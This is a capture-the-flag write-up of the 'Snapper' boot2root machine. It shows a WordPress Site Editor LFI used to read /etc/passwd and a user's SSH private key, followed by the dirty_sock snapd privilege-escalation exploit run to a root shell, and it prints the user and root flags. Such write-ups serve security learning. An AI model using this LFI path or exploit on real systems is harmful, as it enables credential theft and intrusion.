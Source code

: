 ```yaml
---
layout: post
title: 217 Snapper - uad360
author: devploit
item_image: https://i.imgur.com/zOPzzBc.png
tags: ctf uad360 boot2root lfi wordpress snap
---
```


### Challenge:

**Level:** Easy-Medium

**Description:**

>Get user and root flags.
>author: torombolo

### User write-up:

We start by scanning the IP to get active services.

```
nmap -sV -Pn -T5 192.168.105.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 09:15 BST
Nmap scan report for 192.168.105.111
Host is up (0.00041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 52:54:00:A8:CA:93 (QEMU virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

If we enum the web we will see interesting paths. The most prominent is the wordpress installed.

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
**/blog (Status: 301)**
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
```

The most logical thing is to pass a first scan with wpscan, which will show us a LFI (local file inclusion) vulnerability.

```
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - http://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

Basically, the vulnerability explains that by visiting a specific path we can list computer files. The path in question is: http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=<file_to_list>. We will do the PoC with /etc/passwd.

![Branching](https://i.imgur.com/Gn0nTWm.png)

**It works!**

Now we can list the ssh private key of one of the users to be able to connect to the machine.

* User: masterblaster
* Path: /home/masterblaster/.ssh/id_rsa

![Branching](https://i.imgur.com/biFPnNZ.png)

If we copy the rsa key to our machine and try to connect using it... (Remember to give 600 permissions to the file).

```
➜  ~ ssh masterblaster@192.168.105.111 -i .ssh/snapper
The authenticity of host '192.168.105.111 (192.168.105.111)' can't be established.
ECDSA key fingerprint is SHA256:95id/6gGifLj0lHnpKkICP9wAeECnGU/SHstsKBQ1Vo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.105.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

Last login: Sat Jun  8 17:18:17 2019 from 192.168.1.110
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag.txt  Music  Pictures  Public  Templates  Videos
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ cat flag.txt
uad360{b2143fa23fcfb6145f1bc9cca80dcbab}
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ 
````

All right! We have user and the first flag

`User flag: uad360{b2143fa23fcfb6145f1bc9cca80dcbab}`



### Root write-up:

To get the root flag, if we list enough we can see that the snap version is not the most recent (the name of the machine helps to realize).

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ snap --version
snap    2.35.5+18.10
snapd   2.35.5+18.10
series  16
ubuntu  18.10
kernel  4.18.0-20-generic
```

That particular version is vulnerable to local privilege escalation as we can see [here](https://www.exploit-db.com/exploits/46361). The instructions to follow for the exploitation are:

* Create an account at the https://login.ubuntu.com/.
* After confirming it, edit your profile and upload an SSH public key.
* Run the exploit specifying the private key associated with the public upload to the web.

As we have said, we created the account in the link and we will upload the ssh key to its corresponding section.

![Branching](https://i.imgur.com/IJAtcD6.png)

To not upload our personal ssh key for obvious reasons, we created a new one in a linux as we see here:

```
➜  /tmp ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/.ssh/snapper_root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/snapper_root.
Your public key has been saved in /root/.ssh/snapper_root.pub.
The key fingerprint is:
SHA256:hRkMNEgC26et0GnVyhmW0MPGzZDZdPNUs8MFlgYXcF0 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|..o=o@=o+ ++O=..E|
| o oXo+o.B =o+.  |
|. ..*.. o o.+    |
| . O +   .   .   |
|. = =   S        |
| o .             |
|  .              |
|                 |
|                 |
+----[SHA256]-----+
```

We upload the generated public key. We pass the exploit and the private key to the vulnerable machine and launch it by specifying the key and the account mail.

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:/dev/shm$ python3 snapd.py -u sugomum@uber-mail.com -k snapper_root

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/bgsfawbofu;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Sending payload...
[+] Success! Enjoy your new account with sudo rights!
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

New release '19.04' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ id
uid=1001(r00tdevploit) gid=1001(r00tdevploit) groups=1001(r00tdevploit)
r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ sudo -s
root@masterblaster-Standard-PC-Q35-ICH9-2009:~# GGWP
```

*We got root shell!*

Finally we visit the path where the flag is.

```
root@masterblaster-Standard-PC-Q35-ICH9-2009:/root# cat flag.txt
uad360{fb9bf208b033aee53a16a5255b3b3039}
```

`Root Flag: uad360{fb9bf208b033aee53a16a5255b3b3039}`
